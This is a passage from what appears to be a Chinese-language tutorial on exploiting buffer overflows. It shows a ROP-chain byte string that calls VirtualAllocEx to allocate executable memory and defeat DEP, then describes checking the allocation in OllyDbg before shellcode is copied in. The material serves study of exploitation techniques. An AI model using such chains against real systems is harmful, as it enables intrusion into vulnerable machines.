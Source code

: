```c
    "\x90\x90\x90\x90"
    "\xBA\xD9\xBB\x7C"//address of PUSH ESP POP EBP RETN 4 
    "\xBC\x45\x82\x7C"//address of call VirtualAllocEx
    "\x90\x90\x90\x90"//
    "\xFF\xFF\xFF\xFF"//hProcess = -1 ,-1 stands for current process
    "\x00\x00\x03\x00"//lpAddress = 00030000
    "\xFF\x00\x00\x00"//dwSize= 0xff
    "\x00\x10\x00\x00"//flAllocationType = 0x1000
    "\x40\x00\x00\x00"//flProtect = 0x40,stands for exec_read_write
    "\x90\x90\x90\x90"
    "\xFF\xFF\xFF\xFF"//-1 当前进程
    "\x00\x00\x03\x00"//申请空间起始地址 0x00030000
    "\xFF\x00\x00\x00"//申请空间大小 0xFF
    "\x00\x10\x00\x00"//申请类型 0x1000
    "\x40\x00\x00\x00"//申请空间访问类型 0x40
    ; 
```

编译好程序后用 OllyDbg 加载程序，并在 0x7CBBD9BA（调整 EBP 入口）处下断点，然后按 F8 键单步运行到 0x7C8245C2（VirtualAlloc 函数的 RETN 0x10）暂停，观察内存状态。

如图 12.3.26 所示，EAX 中是我们申请空间的起始地址 0x00030000，这也说明我们的空间申请成功了，此时通过 OllyDbg 的内存窗口也可以看到我们刚刚申请的空间，而且属性是带 E 的标志！下面就是向这部分内存空间复制 shellcode 了。

<img src="images/09/virtualAlloc函数返回前内存状态.png" >
